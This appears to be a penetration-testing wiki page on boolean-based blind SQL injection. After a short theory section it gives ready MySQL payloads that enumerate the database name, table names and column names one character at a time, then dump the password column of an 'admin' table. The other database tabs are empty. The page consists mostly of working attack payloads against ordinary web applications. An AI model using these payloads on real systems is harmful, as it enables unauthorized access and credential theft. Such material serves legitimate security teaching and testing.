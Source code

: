 # Boolean Based - Blind SQL Injection

## Theory
Boolean-based SQL injection is a technique that relies on sending an SQL query to the database based on which the technique forces the application to return different results.  
The result allows an attacker to judge whether the payload used returns true or false. Even though no data from the database are recovered, the results give the attacker valuable information.
Depending on the boolean result (TRUE or FALSE), the content within the response will change, or remain the same.

## Practice

### Getting database name

{% tabs %}
{% tab title="MySQL" %}
First, retrieve the database length:
```sql
1' AND (SELECT LENGTH(database()))=1-- -  #False  
1' AND (SELECT LENGTH(database()))=2-- -  #False
1' AND (SELECT LENGTH(database()))=3-- -  #True -> It means the length of database is 3 characters.
```

Second, retrieve the database name:
```sql
--True -> It means the first character is p. Note that ASCII code is in decimal
1' AND (SELECT HEX(SUBSTRING(database(), 1, 1)))=HEX('p')-- -
1' AND (SELECT ASCII(SUBSTRING(database(), 1, 1)))=112-- - 

--True -> It means the second character is w.
1' AND (SELECT HEX(SUBSTRING(database(), 2, 1)))=HEX('w')-- -

--True -> It means the third character is n.
1' AND (SELECT HEX(SUBSTRING(database(), 3, 1)))=HEX('n')-- -
```
{% endtab %}

{% tab title="MSSQL" %}
```sql
```
{% endtab %}

{% tab title="OracleSQL" %}
```sql
```
{% endtab %}

{% tab title="PostgreSQL" %}
```sql
```
{% endtab %}

{% tab title="SQLite" %}
```sql
```
{% endtab %}
{% endtabs %}

### Getting tables names

{% tabs %}
{% tab title="MySQL" %}
First, retrieve the number of tables:
```sql
1' AND (SELECT COUNT(*) FROM information_schema.tables WHERE table_schema=database())=2-- -  #True -> 2 tables
```

Second, retrieve length of each table
```sql
-- If True, the first table lenght is 5
1' AND (SELECT LENGTH(table_name) FROM information_schema.tables WHERE table_schema=database() LIMIT 0,1)=5-- - 

-- If True, the second table lenght is 5
1' AND (SELECT LENGTH(table_name) FROM information_schema.tables WHERE table_schema=database() LIMIT 1,1)=5-- - 
```

Third, retrieve name of each table
```sql
-- If True, the first char of the first table is u
1'AND (SELECT HEX(SUBSTRING(table_name, 1, 1))FROM information_schema.tables WHERE table_schema=database() LIMIT 0,1)=HEX('u')-- -

-- If True, the second char of the first table is s
1'AND (SELECT HEX(SUBSTRING(table_name, 2, 1)) FROM information_schema.tables WHERE table_schema=database() LIMIT 0,1)=HEX('s')-- -

-- If True, the first char of the second table is p
1'AND (SELECT HEX(SUBSTRING(table_name, 1, 1)) FROM information_schema.tables WHERE table_schema=database() LIMIT 1,1)=HEX('p')-- -
```

{% endtab %}

{% tab title="MSSQL" %}
```sql
```
{% endtab %}

{% tab title="OracleSQL" %}
```sql
```
{% endtab %}

{% tab title="PostgreSQL" %}
```sql
```
{% endtab %}

{% tab title="SQLite" %}
```sql
```
{% endtab %}
{% endtabs %}

### Getting column names
{% tabs %}
{% tab title="MySQL" %}
First, retrieve the number of columns:
```sql
1' AND (SELECT COUNT(column_name) FROM information_schema.columns WHERE table_schema=database() AND table_name='admin')=2-- -  #True -> 2 columns
```

Second, retrieve length of each column
```sql
-- If True, the first column's name lenght is 3
1' AND (SELECT LENGTH(column_name) FROM information_schema.columns WHERE table_schema=database() AND table_name='admin' LIMIT 0,1)=3-- - 

-- If True, the second table's name lenght is 8
1' AND (SELECT LENGTH(column_name) FROM information_schema.columns WHERE table_schema=database() AND table_name='admin' LIMIT 1,1)=8-- - 
```

Third, retrieve name of each column
```sql
-- If True, the first char of the first column is a
1'AND (SELECT HEX(SUBSTRING(column_name, 1, 1))FROM information_schema.columns WHERE table_schema=database() AND table_name='admin' LIMIT 0,1)=HEX('a')-- -

-- If True, the second char of the first column is b
1'AND (SELECT HEX(SUBSTRING(column_name, 2, 1))FROM information_schema.columns WHERE table_schema=database() AND table_name='admin' LIMIT 0,1)=HEX('b')-- -

-- If True, the first char of the second column is p
1'AND (SELECT HEX(SUBSTRING(column_name, 1, 1))FROM information_schema.columns WHERE table_schema=database() AND table_name='admin' LIMIT 1,1)=HEX('p')-- -
```

{% endtab %}

{% tab title="MSSQL" %}
```sql
```
{% endtab %}

{% tab title="OracleSQL" %}
```sql
```
{% endtab %}

{% tab title="PostgreSQL" %}
```sql
```
{% endtab %}

{% tab title="SQLite" %}
```sql
```
{% endtab %}
{% endtabs %}

### Dump values
{% tabs %}
{% tab title="MySQL" %}

First, retrieve the lenght of the value (we take password column as example):
```sql
1' AND (SELECT LENGTH(password) FROM admin LIMIT 0,1)=9-- -  #True -> 1st password is 9 char
```

Second, retrieve values
```sql
-- If True, the first password's char is p
1'AND (SELECT HEX(SUBSTRING(password, 1, 1))FROM admin LIMIT 0,1)=HEX('p')-- -

-- If True, the second password's char is a
1'AND (SELECT HEX(SUBSTRING(password, 2, 1))FROM admin LIMIT 0,1)=HEX('a')-- -
```

{% endtab %}

{% tab title="MSSQL" %}
```sql
```
{% endtab %}

{% tab title="OracleSQL" %}
```sql
```
{% endtab %}

{% tab title="PostgreSQL" %}
```sql
```
{% endtab %}

{% tab title="SQLite" %}
```sql
```
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://portswigger.net/web-security/sql-injection" %}
{% embed url="https://defendtheweb.net/article/blind-sql-injection" %}